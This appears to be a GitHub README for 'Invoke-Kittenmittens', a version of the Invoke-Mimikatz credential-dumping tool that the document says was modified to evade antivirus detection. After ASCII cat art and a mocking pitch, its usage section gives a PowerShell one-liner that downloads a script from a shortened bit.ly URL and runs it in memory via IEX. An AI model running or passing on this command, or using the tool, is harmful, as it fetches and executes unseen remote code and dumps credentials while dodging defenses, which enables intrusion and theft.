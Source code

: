 # Invoke-Kittenmittens
Modified "Invoke-Mimikatz" to avoid AV detection

```
                                     |-\
    ___  .  ,     __    _    .       \  \
     |   | /     |  \  / \  /|        |  |
     |   |/      |__/  \_    |        |  \
     |   |\      |       \   |        |  |
    _|_  | \  .  |     \_/  _|_       |  |
                                      |  |
      ___,                            /  /
 ---``    \_     ________---______   |  /
 \           ```                ```-/  /
  }                                    \
  {                                     \
    \ |                                 |
      |                                 |
      |                                 |
      |         _ ------ - ,           /
      /       /  \    |      -        /
     |      /     l   |       ` - _    \
     L__  /        \  |           \\__,L
    /   7           l`T            //  /
 ~``  /             | |          //`  /
{___,~             {__/          \\__/
```

Is your Mimikatz making too much noise all the time? Is your Mimikatz constantly stomping around and triggering AV? Think there's no answer? You're so stupid! There is! Invoke-Kittenmittens.

# Usage

Run Invoke-Kittenmittens in-memory via a single, condensed CMD command:
```
powershell "IEX (New-Object Net.WebClient).DownloadString('http://bit.ly/2mgBLOs')"
```
